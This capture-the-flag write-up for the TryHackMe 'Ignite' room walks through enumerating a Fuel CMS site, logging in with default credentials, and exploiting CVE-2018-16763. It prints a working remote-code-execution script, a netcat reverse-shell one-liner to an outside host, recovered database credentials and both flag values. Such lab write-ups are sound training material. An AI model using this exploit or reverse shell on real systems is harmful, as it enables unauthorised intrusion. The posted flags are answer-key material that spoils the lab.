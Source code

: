 ###### A new start-up has a few issues with their web server.
Room: https://tryhackme.com/room/ignite
##

The only port open is port 80, running a HTTP server.  
However, once we navigate to the website we see that it's under construction, or at least, not fully configured.  

**gobuster dir -u http://xx.xx.xxx.xxx/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300

This way, we're able to find the **/fuel** directory. Once we run gobuster again, we find plenty other interesting subdirectories.  
The one that matters is the **/fuel/login**.  

Since this is not properly configured, I tried admin:admin, hoping for default credentials. And it worked!  
I used the CVE-2018-16763 ([link](https://www.exploit-db.com/exploits/47138)) to exploit the CMS. 

However, it doesn't seem to work out of the box, so I made a few changes to it.  
**default code**
```
import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

**edited code**
```
import requests
import urllib

url = "http://xx.xx.xxx.xxx:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```
Running the script, we see that we're able to run a simple command. 
```
cmd:whoami
systemwww-data
```

However, we might be able to get the flags from this stage. But let's create a reverse shell and exploit the system as much as we can.  
```
cmd:rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc xx.x.x.xxx 5555 >/tmp/f 
```

**The first flag is located at /home/www-data/flag.txt and is 6470e394cbf6dab6a91682cc8585059b** **[1]**.   

We don't have access to the root directory, so I was thinking if we can find some valuable information in the **Fuel's CMS** files.  
If we navigate to **/var/www/html/fuel**, we find all the files of the CMS.   

However, in the /var/www/html/fuel/application/config we see a file called **database.php**.
```
'username' => 'root',
'password' => 'mememe',
```

**The second and final flag is at /root/root.txt and is b9bbcb33e11b80be759c4e844862482d** **[2]**.  


